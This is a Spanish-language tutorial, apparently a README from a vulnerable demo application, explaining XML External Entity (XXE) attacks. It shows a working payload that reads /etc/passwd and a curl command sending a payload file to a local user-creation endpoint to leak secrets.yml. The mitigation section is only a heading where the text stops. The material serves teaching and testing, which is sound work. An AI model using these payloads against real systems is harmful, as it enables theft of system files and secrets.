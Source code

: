 ## Ataque de XML eXternal Entity (XXE)

Una XML External Entity (XXE) es una característica de procesamiento de XML que permite a los documentos XML definir entidades que se pueden reemplazar con datos externos al documento. Las entidades externas son referencias que pueden apuntar a archivos locales, recursos remotos o incluso scripts, lo que abre la posibilidad de explotar esta característica si no se maneja de manera segura.

### Explotación

El siguiente ejemplo muestra cómo se puede utilizar una entidad externa para intentar acceder a un archivo local en el servidor, como `/etc/passwd` (un archivo típico en sistemas Unix/Linux que contiene información sobre los usuarios):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

Explicación:

* `DOCTYPE`: Define un tipo de documento que incluye una declaración de entidad llamada xxe.
* `ENTITY xxe SYSTEM`: Esta línea define la entidad externa `xxe`, la cual hace referencia a un archivo en el sistema (`file:///etc/passwd`).
* `&xxe;`: En el cuerpo del XML, se inserta la entidad `xxe`, que el parser intentará reemplazar con el contenido del archivo `/etc/passwd`.

Cuando un parser XML que no está protegido procesa este documento, intentará leer el archivo `/etc/passwd` y reemplazará la entidad `&xxe;` por el contenido de ese archivo, exponiéndolo al atacante si el archivo es procesado o devuelto como parte de una respuesta.

Entonces, más generalmente, si una aplicación tiene un endpoint que analiza XML, un atacante podría enviar un payload especialmente diseñado al servidor y obtener archivos sensibles. Los archivos que el atacante pueda obtener dependen en gran medida de cómo esté configurado el sistema y cómo se implementen los permisos de usuario.

Usando el archivo de payload `xxe.xml` en la raíz de este repositorio, podemos enviar una solicitud cURL al endpoint de creación de usuarios que acepta XML.

```sh
curl -X 'POST' \
     -H 'Content-Type: application/xml' \
     -d @xxe.xml \
     http://localhost:3000/users.xml
```

El payload recogerá el archivo `secrets.yml` y lo establecerá como el nombre del usuario cuando se envíe la solicitud. El archivo `secrets.yml` se insertará en la base de datos como el nombre del usuario y será devuelto al atacante.

### Mitigación
